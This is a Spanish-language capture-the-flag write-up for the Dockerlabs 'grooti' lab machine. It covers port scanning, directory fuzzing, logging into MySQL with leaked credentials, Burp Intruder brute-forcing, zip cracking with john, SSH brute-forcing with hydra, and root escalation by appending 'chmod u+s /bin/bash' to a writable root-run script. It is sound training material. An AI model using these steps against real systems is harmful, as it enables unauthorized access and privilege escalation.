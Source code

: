 ## LEVANTAMOS LA MÁQUINA

Vamos a la página de 'Dockerlabs' y buscamos la máquina grooti, vamos al enlace y la descargamos:
```bash
https://dockerlabs.es/
https://mega.nz/file/OEUQEJjC#Ckg_Wxq7MqLHTfpjXgXBAJuIxla3qFqWv42Xw_qTQYA
```
![Nmap Scan](/images/grooti/grooti1.png)



Descarhamos el zip en nuestra máquina Linux, descomprimimos con:
```bash
unzip grooti.zip
```
y ejecutamos:

```bash
sudo bash auto_deploy.sh grooti.tar
```
![Nmap Scan](images/grooti/grroti2.png)

## FASE ENUMERACIÓN

Comenzamos con un scaneo de los puertos que tiene abiertos y los servicios que corren por ellos, así como sus versiones por si hay alguna vulnerabilidad asociada:

```bash
sudo nmap -sS -sCV -Pn --min-rate 5000 -p- -vvv --open 172.17.0.2
```
![Nmap Scan](images/grooti/grooti3.png)
![Nmap Scan](images/grooti/grooti4.png)

Vemos:

  -Puerto 22 con SSH versión 9.6p1 no vulnerable
  -Puerto 80 HTTP
  -Puerto 3306 mysql

Dado que no tenemos credenciales vamos a centrarno en el puerto 80 http, vamos a lanzar un 'whatweb' para saber que está utilizando la página:

```bash
 whatweb 172.17.0.2
```

![Nmap Scan](images/grooti/grooti5.png)


Nada interesante, salvo que utiliza apache, llegados a este punto toca mirar el código fuente por si hay algo interesante:

Abrimos la página web:
![Nmap Scan](images/grooti/grooti6.png)

con Ctrl+u abrimos el código fuente y vemos dos cosas interesantes:

![Nmap Scan](images/grooti/grooti7.png)

1-que un usuario rocket ha entrado en la base de datos, recordad que el puerto 3306 corre con mysql
2-tres rutas:"imagenes","documentos","archives"

No obstante vamos a hacer un fuzzing para ver que más rutas podemos encontrar:

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 'http://172.17.0.2/' -x html,php,txt,bak,env,cgi,
```
![Nmap Scan](images/grooti/grooti8.png)

Vemos varias rutas con cosas interesante:
```
http://172.17.0.2/imagenes/ ----->http://172.17.0.2/imagenes/README.txt
```

Con un README.txt muy interesante:
![Nmap Scan](images/grooti/grooti9.png)

Ya tenemos un password: password1

```
http://172.17.0.2/archives/
```
Sin nada interesante


```
http://172.17.0.2/secret/
```
Con un listado de posibles usuarios:
![Nmap Scan](images/grooti/grooti10.png)

## INTRUSION EN BASE DE DATOS

Con todas las pistas vamos a intentar conectarnos a la base de datos con el usuario rocket y el password password1

```bash
mysql -h 172.17.0.2 -u rocket -ppassword1
```
Nos va a da un error y para corregirlo añadiremos --skip-ssl  quedando:
```bash
mysql -h 172.17.0.2 -u rocket -ppassword1 --skip-ssl
```
![Nmap Scan](images/grooti/grooti11.png)

Ahora que estamos conectados vamos a veer que bases de datos hay:
```
show databases;
```
encontramos `files_secret` vamos a utilizar esta base de datos

```bash
use files_secret;
```
listamos las tablas
```bash
show tables;
```
y mostramos todo lo que contiene la tabla `rutas`
```
select * from rutas;
```
![Nmap Scan](images/grooti/grooti12.png)

## FASE INTRUSIÓN
Encontrada una nueva ruta en la base de datos nos dirigimos a ella:

```
http://172.17.0.2/unprivate/secret/
```

vemos un panel donde podemos poner una frease y un numero del 1 al 100:
![Nmap Scan](images/grooti/grooti13.png)

Despues de mirar el código fuente, intentar inyectar cosas en el panel y no viendo nada raro, vamos a pasar la petición por burpsuite, dado que lo único que hace es descargar un archivo con el nombre password1.txt
el 1 varía y es el número que ponemos del 1 al 100. 

Capturamos la petición y vamos a lanzar un ataque de fuerza bruta a los numeros que introducimos
1- mandamos la petición al intruder:

![Nmap Scan](images/grooti/grooti14.png)

2-Seleccionamos dónde poner nuestro payload, concretamente en el número que metemos en el panael y le damos a "add"
![Nmap Scan](images/grooti/grooti15.png)

3-Cambiamos el payload type a Numers y from 1 to 100 para indicar que queremos solo numeros del 1 al 100
![Nmap Scan](images/grooti/grooti16.png)

y lanzamos el ataque con start attack

Cuando termina el ataque vamos a ordenar por el tamaño:
![Nmap Scan](images/grooti/grooti17.png)

Vemos que al poner el número 16 se dispara el tamaño de la respuesta y si miramos en ese número la respuesta vemos:

![Nmap Scan](images/grooti/grooti18.png)


Pues vamos a lanzar una petición con el número 16 y vemos que pasa, y nos descarga un zip protegido por cntraseña, vamos a romperla con 
john, lo primero usamos:

```bash
zip2john password16.zip > hash.txt
```
para generar el hash a romper del zip

y ahora intentamos romperlo con john:
```bash
 john --wordlist=/usr/share/wordlists/rockyou.txt  hash.txt
```
y rompe el hash:
![Nmap Scan](images/grooti/grooti19.png)

hacemos un unzip, metemos el password y nos descarga un txt:
![Nmap Scan](images/grooti/grooti20.png)

pues parece una lista de passwords, con esto vamos a probar fuerzabruta por ssh, antes hacemos una lista de users, os acordais de la página "http://172.17.0.2/secret/"
ahí teniamos tres usuarios: 
```
grooti
rocket
naia
```

vamos a meterlo en un archivo con el nombre users.txt y lanzamos un ataque con hidra, con esos usuarios y el archivo con los passwords que sacamos del zip:

![Nmap Scan](images/grooti/grooti21.png)

Nos conectamos por SSH como el usuario grooti a la IP victima:
```bash
ssh grooti@172.17.02
```
y cuando nos pide el password metemos
```
YoSoYgRoOt
```

Ya estamos dentro

##ESCALADA DE PRIVILEGIOS

Miro si estoy en algún grupo privilegiado con "id" y nada, si tengo algun privilegio sudo con "sudo -l" y nada, busco SUID y tampoco nada, listo usuarios y estamos root y yo xD
![Nmap Scan](images/grooti/grooti22.png)

Voy a detectar si hay algún proceso, copio en la victima en un archivo con nano este script:
```bash
https://github.com/lavafuego/herramientas/blob/main/detectar%20procesos%20en%20bash/procesos.sh
```
doy permisos de ejecución con chmod +x <nombre del archivo>
lo ejecuto:
![Nmap Scan](images/grooti/grooti23.png)

Veo que se ejecuta este proceso:
```
 /tmp/malicious.sh
```
miro los permisos que tengo sobre él, propietario root y puedo modificarlo
le añado una linea para modificar los permisos de la /bin/bash:
```bash
echo "chmod u+s /bin/bash" >>/tmp/malicious.sh
```
y espero a que vuelva a ejecutarse el proceso, cuando se ha ejecutado cambia los permisos de la /bin/bash y si lo ejecuto con la flag -p me convierto en root:
```bash
/bin/bash -p
```

![Nmap Scan](images/grooti/grooti24.png)


